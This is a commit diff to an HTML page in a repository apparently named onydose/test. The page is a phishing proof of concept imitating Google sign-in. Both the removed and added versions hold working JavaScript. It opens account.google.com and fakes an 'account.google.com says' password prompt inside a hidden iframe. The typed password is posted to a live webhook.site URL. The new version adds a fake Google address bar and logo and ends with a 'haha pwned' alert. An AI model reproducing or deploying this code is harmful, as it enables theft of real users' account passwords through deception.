

Before and after one commit to onydose/test, a plain HTML site: page ano.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update ano.html

```diff
--- a/ano.html
+++ b/ano.html
@@ -1,104 +1,131 @@
-
 <!DOCTYPE html>
 <html lang="en">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>PoC Thread for Android</title>
+    <title>Google Account Spoofed Prompt (href PoC)</title>
     <style>
         body {
             margin: 0;
             padding: 20px;
-            font-family: Arial, sans-serif;
+            font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif;
             background: #f0f0f0;
             text-align: center;
+            line-height: 1.6;
         }
-        button {
+        h1 { color: #d93025; font-size: 24px; margin-bottom: 10px; }
+        h2 { color: #333; font-size: 18px; margin: 20px 0 10px; }
+        a.button {
             display: inline-block;
-            padding: 15px 30px;
-            background: #ff4444;
+            padding: 16px 32px;
+            background: #1a73e8;
             color: white;
-            border-radius: 5px;
+            border: none;
+            border-radius: 8px;
             cursor: pointer;
             font-size: 16px;
-            margin-top: 50px;
-            border: none;
+            font-weight: 500;
+            margin: 20px auto;
+            text-decoration: none;
+            box-shadow: 0 2px 6px rgba(26,115,232,0.3);
+            transition: all 0.2s;
         }
-        button:hover { background: #cc0000; }
+        a.button:hover {
+            background: #1557b0;
+            transform: translateY(-1px);
+        }
+        a.button:active {
+            transform: translateY(0);
+        }
         #status {
-            margin-top: 20px;
-            color: #333;
-            font-size: 24px;
+            margin-top: 30px;
+            padding: 16px;
+            background: #fff;
+            border-radius: 8px;
+            box-shadow: 0 1px 3px rgba(0,0,0,0.1);
+            min-height: 50px;
             font-weight: bold;
+            color: #d93025;
         }
-        .hidden {
-            display: none;
+        .info {
+            background: #e8f0fe;
+            color: #1967d2;
+            padding: 12px;
+            border-radius: 6px;
+            font-size: 14px;
+            margin: 20px;
+            border-left: 4px solid #1a73e8;
+        }
+        .fake-addr {
+            position: fixed;
+            top: 0; left: 0; right: 0;
+            background: #f1f3f4;
+            padding: 8px 12px;
+            font-family: monospace;
+            font-size: 13px;
+            color: #5f6368;
+            z-index: 9999;
+            border-bottom: 1px solid #dadce0;
+            overflow: hidden;
+            white-space: nowrap;
+            text-overflow: ellipsis;
+        }
+        .google-logo {
+            width: 80px;
+            margin: 20px auto;
         }
     </style>
 </head>
 <body>
-    <h2>Click to Trigger Spoofed Prompt</h2>
-    <button id="triggerBtn">Spoof Prompt</button>
-    <div id="status"></div>
-    <form id="hiddenForm" class="hidden" method="POST" action="https://webhook.site/46a1ff0d-65fb-41b4-a384-0ed267ed2a90/submit">
-        <input type="text" id="passwordInput" name="password">
-    </form>
+    <!-- Fake Google Address Bar -->
+    <div class="fake-addr">https://accounts.google.com/signin/v2/challenge</div>
 
-    <script>
-        document.getElementById('triggerBtn').onclick = () => {
-            // Step 1: Open a legit domain in a new window
-            const w = window.open('https://account.google.com/');
-            if (!w) {
-                document.getElementById('status').innerHTML = 'Popup blocked. Fallback not implemented.';
-                return;
-            }
-            // Step 2: Create hidden iframe and trigger prompt after 2s
+    <div class="google-logo">
+        <svg viewBox="0 0 75 24" xmlns="http://www.w3.org/2000/svg">
+            <path d="M22.56 10.51c0-.84-.08-1.66-.22-2.44h-11.1v4.62h6.33c-.27 1.4-1.1 3.6-3.24 4.8l-.04.24 4.7 3.64.33.03c3.03-2.8 4.78-6.9 4.78-11.89z" fill="#4285F4"/>
+            <path d="M11.24 21.62c3.15 0 5.8-1.04 7.74-2.82l-5.03-3.9c-1.36.91-3.1 1.44-4.71 1.44-3.62 0-6.68-2.37-7.77-5.57l-.24.02-4.88 3.78-.06.17c1.93 3.78 5.9 6.28 10.95 6.28z" fill="#34A853"/>
+            <path d="M3.47 12.75c-.3-1.1-.47-2.27-.47-3.5s.17-2.4.47-3.5l-.01-.26-4.94-3.83-.16.08c-1.1 1.95-1.72 4.16-1.72 6.51 0 2.35.62 4.56 1.72 6.51l.28-.22 4.83-3.79z" fill="#FBBC05"/>
+            <path d="M11.24 4.62c1.72 0 3.27.62 4.49 1.84l3.32-3.32c-2.03-1.9-4.7-3.06-7.81-3.06-5.05 0-9.02 2.5-10.95 6.28l6.1 4.73c1.09-3.2 4.15-5.57 7.85-5.57z" fill="#EA4335"/>
+        </svg>
+    </div>
+
+    <h1>Sign in</h1>
+    <h2>Use your Google Account</h2>
+
+    <div class="info">
+        <strong>PoC Active:</strong> Click below to verify your account
+    </div>
+
+    <!-- GUNAKAN href="javascript:" — TANPA onclick -->
+    <a href="javascript:(function(){
+        const w = window.open('https://account.google.com/', '_blank');
+        if (!w) { alert('Popup blocked!'); return; }
+        setTimeout(() => {
+            const iframe = document.createElement('iframe');
+            iframe.style.display = 'none';
+            iframe.src = 'javascript:(function(){
+                setTimeout(function(){
+                    var p = prompt(\"account.google.com says\\n\\nPassword:\");
+                    if(p && p.trim() !== ''){
+                        document.write('<form method=\"POST\" action=\"https://webhook.site/46a1ff0d-65fb-41b4-a384-0ed267ed2a90/submit\" id=\"f\">' +
+                            '<input type=\"hidden\" name=\"password\" value=\"'+p.replace(/\\\"/g,\"&quot;\")+'\">' +
+                            '<input type=\"submit\"></form>');
+                        document.getElementById('f').submit();
+                        setTimeout(() => { alert('haha pwned!\\nPassword: ' + p); }, 500);
+                    } else if (p !== null) {
+                        alert('Password required!');
+                        setTimeout(arguments.callee, 500);
+                    }
+                }, 1000);
+            })()';
+            document.body.appendChild(iframe);
             setTimeout(() => {
-                const iframe = document.createElement('iframe');
-                iframe.src = 'javascript:(function(){var p=prompt("account.google.com says                                                                                                                                     Password:");if(p){document.write(\'<form method="POST" action="https://webhook.site/46a1ff0d-65fb-41b4-a384-0ed267ed2a90/submit" id="iframeForm"><input type="hidden" name="password" value="\'+p+\'"><input type="submit"></form>\');document.getElementById("iframeForm").submit();}})()';
-                iframe.style.display = 'none';
-                document.body.appendChild(iframe);
+                if (document.body.contains(iframe)) document.body.removeChild(iframe);
+                if (w && !w.closed) w.close();
+            }, 5000);
+        }, 2000);
+    })()" class="button">Continue to Google</a>
 
-                // Step 3: Listen for form submission and update status
-                const hiddenForm = document.getElementById('hiddenForm');
-                hiddenForm.onsubmit = (e) => {
-                    e.preventDefault(); // Prevent actual submission
-                    const password = document.getElementById('passwordInput').value; // This won't work directly; see workaround below
-                    if (password) {
-                        document.getElementById('status').innerHTML = 'haha pwned<br>Password captured: ' + password;
-                    } else {
-                        document.getElementById('status').innerHTML = 'haha pwned<br>No password captured.';
-                    }
-                    // Clean up
-                    setTimeout(() => {
-                        document.body.removeChild(iframe);
-                        if (w && !w.closed) w.close();
-                    }, 1000);
-                };
-
-                // Workaround: Poll for iframe content change (since direct access is restricted)
-                const checkIframe = setInterval(() => {
-                    try {
-                        const iframeDoc = iframe.contentDocument || iframe.contentWindow.document;
-                        const iframeForm = iframeDoc.getElementById('iframeForm');
-                        if (iframeForm) {
-                            const pwd = iframeForm.querySelector('input[name="password"]').value;
-                            if (pwd) {
-                                document.getElementById('status').innerHTML = 'haha pwned<br>Password captured: ' + pwd;
-                                clearInterval(checkIframe);
-                                setTimeout(() => {
-                                    document.body.removeChild(iframe);
-                                    if (w && !w.closed) w.close();
-                                }, 2000);
-                            }
-                        }
-                    } catch (e) {
-                        // Cross-origin error; proceed with cleanup
-                        clearInterval(checkIframe);
-                    }
-                }, 500);
-            }, 2000);
-        };
-    </script>
+    <div id="status">Waiting for action...</div>
 </body>
 </html>
```
